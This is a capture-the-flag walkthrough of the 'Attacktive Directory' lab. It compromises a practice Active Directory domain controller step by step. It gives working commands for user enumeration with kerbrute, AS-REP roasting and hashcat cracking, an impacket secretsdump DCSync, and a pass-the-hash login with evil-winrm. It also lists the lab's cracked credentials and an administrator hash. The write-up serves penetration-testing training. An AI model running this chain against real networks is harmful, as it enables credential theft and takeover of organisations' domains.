




attacktive directory
Attactive Directory
Find Open Ports Using Rustscan:
rustscan -a 10.10.11.113

Use the available port information to do a nmap scan on those specific ports.
We will enumerate the samba using enum4linux
enum4linux -a 10.10.11.113

It will enumerate all the users and shares possible.
The share isn't accessible for view even using smbclient.
However, enum4linux provided us with Local users and groups.

Next we use kerbrute for domain user scanning.
https://github.com/ropnop/kerbrute/releases
Note: Kerbrute uses a wordlist to brute force and check for users.
Kerbrute has three main commands:
bruteuser - Bruteforce a single user's password from a wordlist
bruteforce - Read username:password combos from a file or stdin and test them
passwordspray - Test a single password against a list of users
userenum - Enumerate valid domain usernames via Kerberos
A domain (-d) or a domain controller (--dc) must be specified. If a Domain Controller is not given the KDC will be looked up via DNS.
By default, Kerbrute is multithreaded and uses 10 threads. This can be changed with the -t option.
Output is logged to stdout, but a log file can be specified with -o.
By default, failures are not logged, but that can be changed with -v.
Lastly, Kerbrute has a --safe option. When this option is enabled, if an account comes back as locked out, it will abort all threads to stop locking out any other accounts.
The help command can be used for more information
/home/cybex/lab/AppImages/kerbrute_linux_amd64 userenum --dc 10.10.11.113 -d spookysec.local -t 100 user.txt

Exploiting AS-REP Roasting using impacket
"GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.
Note: ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
We can try with individual usernames:
impacket-GetNPUsers spookysec.local/administrator -no-pass -dc-ip 10.10.11.113

Or we can give a user file.
impacket-GetNPUsers spookysec.local/ -no-pass -usersfile userfile.txt -dc-ip 10.10.11.113

We see that svc-admin has "Does not require Pre-Authentication" set.
Next we try to crack the password for svc-admin using hashcat.
hashcat -m 18200 hashfile.txt passwords.txt
We used -m 18200 for AS-Rep Roasting
The password was found to be : management2005
Username: svc-admin
Password: management2005
Next, Now we have a username and password in the domain. Lets try to enumerate samba using these credentials.
smbclient -L \\10.10.11.113 -U svc-admin
Use Password: management2005
 '''
'''
We can now access the samba share backup and found the following.
smbclient //10.10.11.113/backup -U svc-admin

The contens of the file.

It sseems to be base64 encoded. So we decode it.

We find another credential.
Username: backup
Password: backup2517860
Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?
Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes
(Note: We can check it by rdp into machine using the backup account)
{kind=link}
Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.
impacket-secretsdump -just-dc backup:backup2517860@10.10.11.113

Now, we can use Pass the Hash attack with evil-winrm to use the hash to login as administrator.
evil-winrm -i 10.10.11.113 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

Thus we have full access to the domain.
Thanks!!